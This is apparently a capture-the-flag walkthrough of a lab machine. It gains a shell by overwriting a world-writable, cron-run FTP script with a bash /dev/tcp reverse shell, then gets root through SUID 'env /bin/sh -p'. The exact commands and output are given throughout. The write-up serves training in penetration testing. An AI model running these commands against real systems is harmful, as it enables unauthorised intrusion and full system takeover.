

## Scenario

Access via: `10.112.173.250`

## Reconnaissance

### Full Port Scan

Started with a full TCP port scan across every port to make sure nothing was missed on the default top-1000.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.112.173.250 -p- -T4
[sudo] password for —REDACTED—:
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-25 21:55 +0200
Nmap scan report for 10.112.173.250
Host is up (0.034s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 18.49 seconds
```

Four ports turned up: FTP, SSH, and two SMB-related ports (139 and 445).

### Service and Version Enumeration

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.112.173.250 -p21,22,139,445 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-25 21:56 +0200
Nmap scan report for 10.112.173.250
Host is up (0.034s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:—REDACTED—
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2026-11-25T19:56:28
|_  start_date: N/A
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2026-11-25T19:56:28+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.15 seconds
```

The script output flagged two things worth following up immediately: anonymous FTP login was allowed, and the `scripts` directory on the FTP server was world-writable.

## FTP Enumeration

Connected anonymously and pulled down everything in the writable `scripts` directory to see what was there.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ftp 10.112.173.250 21
Connected to 10.112.173.250.
220 NamelessOne's FTP Server!
Name (10.112.173.250:—REDACTED—): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
229 Entering Extended Passive Mode (|||50529|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.

ftp> cd scripts
250 Directory successfully changed.

ftp> ls
229 Entering Extended Passive Mode (|||30423|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000          946 Nov 25 19:57 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

ftp> get clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||43072|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |***********************************************************************************************************************************************************************************************|   314      175.32 KiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (8.63 KiB/s)

ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
229 Entering Extended Passive Mode (|||14649|)
150 Opening BINARY mode data connection for removed_files.log (946 bytes).
100% |***********************************************************************************************************************************************************************************************|   946       13.46 MiB/s    00:00 ETA
226 Transfer complete.
946 bytes received in 00:00 (26.11 KiB/s)

ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
229 Entering Extended Passive Mode (|||52487|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |***********************************************************************************************************************************************************************************************|    68        0.71 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.52 KiB/s)
```

**Breakdown:**

- `ftp 10.112.173.250 21` opens an FTP client session to the target on the standard control port
- `anonymous` as the username, with a blank password, logs in using the anonymous account nmap confirmed was allowed
- `ls` lists the current directory on the server
- `cd scripts` changes into the writable `scripts` directory found earlier
- `get <file>` downloads the named file from the server to the local working directory

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
—SNIP—
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat to_do.txt
I really need to disable the anonymous login...it's really not safe
```

The repeated entries in `removed_files.log`, each timestamped from a prior run, showed that `clean.sh` is being executed on some kind of schedule, most likely a cron job. Since the file itself was writable by anyone (the `-rwxr-xrwx` permissions on it in the directory listing), the plan was to overwrite `clean.sh` with a reverse shell payload and wait for whatever scheduled the cleanup job to run it.

## SMB Enumeration

Checked the SMB shares in parallel, since both 139 and 445 were open.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ smbclient -L //10.112.173.250 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            ANONYMOUS
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ smbclient //10.112.173.250/pics -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 14:11:34 2020
  ..                                  D        0  Thu May 14 04:59:10 2020
  corgo2.jpg                          N    42663  Tue May 12 03:43:42 2020
  puppos.jpeg                         N   265188  Tue May 12 03:43:42 2020

		20508240 blocks of size 1024. 13306812 blocks available
smb: \> get corgo2.jpg
getting file \corgo2.jpg of size 42663 as corgo2.jpg (153.2 KiloBytes/sec) (average 153.2 KiloBytes/sec)
smb: \> get puppos.jpeg
getting file \puppos.jpeg of size 265188 as puppos.jpeg (566.7 KiloBytes/sec) (average 412.4 KiloBytes/sec)
```

The two files in `pics` turned out to be exactly what the share's comment suggested: a couple of dog photos, nothing of use for gaining access. SMB was a dead end past that point.

## Exploitation

With SMB giving nothing and the FTP `scripts` directory writable, the plan was to replace `clean.sh` with a reverse shell one-liner and wait for the cron job to trigger it.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat clean.sh
bash -c "bash -i >& /dev/tcp/—REDACTED—/4444 0>&1"
```

```shell
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||7632|)
150 Ok to send data.
100% |*************************************************************************|    55      631.89 KiB/s    00:00 ETA
226 Transfer complete.
55 bytes sent in 00:00 (0.78 KiB/s)
```

**Breakdown:**

- `put clean.sh` uploads the local `clean.sh` (now containing the reverse shell payload) to the server, overwriting the original file of the same name in the current remote directory

With a listener up and the payload in place, it was just a matter of waiting for the scheduled task to run it.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [—REDACTED—] from (UNKNOWN) [10.112.173.250] 44022
bash: cannot set terminal process group (1492): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$
```

After waiting a while, the cron job ran the script and a connection came back as `namelessone`.

```shell
namelessone@anonymous:~$ which python
which python
/usr/bin/python
namelessone@anonymous:~$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
namelessone@anonymous:~$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

namelessone@anonymous:~$ export TERM=tmux-256color
namelessone@anonymous:~$ stty rows 52 cols 236
```

Shell fully upgraded and usable at this point.

```shell
namelessone@anonymous:~$ ls
pics  user.txt
namelessone@anonymous:~$ cat user.txt
—REDACTED—
```

### User Flag

**Answer:** `—REDACTED—`.

## Privilege Escalation

Tried `sudo -l`, but it wasn't an option, since it asked for a password that wasn't available. Then checked for SUID binaries that might allow a privilege escalation path.

```shell
namelessone@anonymous:~$ find / -perm -04000 -type f -ls 2>/dev/null | grep -v snap
   131150     28 -rwsr-xr-x   1 root     root               26696 Mar  5  2020 /bin/umount
   131140     32 -rwsr-xr-x   1 root     root               30800 Aug 11  2016 /bin/fusermount
   131191     64 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /bin/ping
   131084     44 -rwsr-xr-x   1 root     root               43088 Mar  5  2020 /bin/mount
   131207     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /bin/su
  1050325    100 -rwsr-xr-x   1 root     root              100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   919490     44 -rwsr-xr--   1 root     messagebus         42992 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   919683     16 -rwsr-xr-x   1 root     root               14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   919497     12 -rwsr-xr-x   1 root     root               10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   919679    428 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   919144     60 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /usr/bin/passwd
   918992     36 -rwsr-xr-x   1 root     root               35000 Jan 18  2018 /usr/bin/env
   919017     76 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /usr/bin/gpasswd
   919128     40 -rwsr-xr-x   1 root     root               37136 Mar 22  2019 /usr/bin/newuidmap
   919127     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /usr/bin/newgrp
   918924     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /usr/bin/chsh
   919126     40 -rwsr-xr-x   1 root     root               37136 Mar 22  2019 /usr/bin/newgidmap
   918922     76 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /usr/bin/chfn
   919269    148 -rwsr-xr-x   1 root     root              149080 Jan 31  2020 /usr/bin/sudo
   919305     20 -rwsr-xr-x   1 root     root               18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   918871     52 -rwsr-sr-x   1 daemon   daemon             51464 Feb 20  2018 /usr/bin/at
   919164     24 -rwsr-xr-x   1 root     root               22520 Mar 27  2019 /usr/bin/pkexec
```

`/usr/bin/env` stood out in that list as SUID-root.



GTFOBins confirmed `env` is exploitable when it has the SUID bit set, since it runs commands directly without dropping the elevated effective privileges.

```shell
namelessone@anonymous:~$ clear
namelessone@anonymous:~$ env /bin/sh -p
# whoami
root
```

**Breakdown:**

- `env` runs a program in a (possibly modified) environment; because it has the SUID bit set here, it executes with root's effective privileges
- `/bin/sh` the program `env` is told to run
- `-p` tells `sh` to start in privileged mode, keeping its effective user ID instead of dropping it to match the real user ID, so the spawned shell retains root's privileges

```shell
# cd /root
# ls
root.txt
# cat root.txt
—REDACTED—
```

### Root Flag

**Answer:** `—REDACTED—`.